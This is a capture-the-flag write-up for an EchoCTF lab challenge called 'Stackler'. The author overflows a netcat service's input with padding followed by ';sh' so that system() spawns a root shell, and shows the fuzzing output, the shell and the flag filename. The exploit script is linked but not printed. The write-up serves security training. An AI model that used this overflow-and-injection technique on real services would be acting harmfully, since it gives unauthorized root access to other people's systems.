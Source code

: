 ### Stackler EchoCTF

### Difficulty = Easy

### IP Address =  10.0.41.19

#### Description: This system generated a 20 character random word each time so guessing it is quite hard. Still there is a way to force your way around and get access to the flag that can be found on the same folder as the challenge. To start the challenge connect with nc -t 10.0.41.19 1337. Your timer starts from the first time you connect to the service.

We're given a netcat service to connect to 

```
nc -t 10.0.41.19 1337
```

On connecting to it shows an input prompt that required us giving it a password

```
└─$ nc -t 10.0.41.19 1337
Guess the word i'm thinking and you win a shell...
lol
FAILURE! You didnt guess my word...
My word was: 9Gw:>{)?vcIF|ud  
```

We can't guess a 20 random value so attempting to get the password isn't going to be a way here

From the box name called `stackler` so maybe it deals with stack overflow

But here's the problem. We are not given a binary to analyze so if i'm to perform a binary exploitation it will be kinda difficulty

Since the difficulty is Easy i'll assume that the binary already uses a vulnerable function maybe `gets(), strcpy, etc.` to receive our input

With this i made a script to fuzz for values and append ;sh

Here's the script [Exploit](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/echoctf/stackler/exploit.py)

On running it after few minutes it pops a shell 

```
└─$ python3 fuzz.py       
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[----------------------SNIP---------------------------]
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[+] Opening connection to 10.0.41.19 on port 1337: Done
[*] Switching to interactive mode
SUCCESS! Here is my gift to you...
sh: 1: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA: not found
sh: 0: can't access tty; job control turned off
# $  
```

So what's likely happening there is that:

```
1. It saves a value in the stack
2. And it runs system(value)
3. With the exploit we made the A's overwrote what is stored in the value therefore making it system(;sh)
```

And we're root

```
[*] Switching to interactive mode
SUCCESS! Here is my gift to you...
sh: 1: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA: not found
sh: 0: can't access tty; job control turned off
# $ id
uid=0(root) gid=0(root) groups=0(root)
# $ ls -al
total 764
drwxr-xr-x 1 root root   4096 Nov 16  2021 .
drwxr-xr-x 1 root root   4096 Feb 20 00:39 ..
-rw-r--r-- 1 root root      0 Nov 16  2021 ETSCTF_22138d61ca9a56b747753874141ff009
-rwxr-xr-x 1 root root 773088 Nov 16  2021 chall
# $ 
```

That's all xD

<br> <br>
[Back To Home](../../index.md)
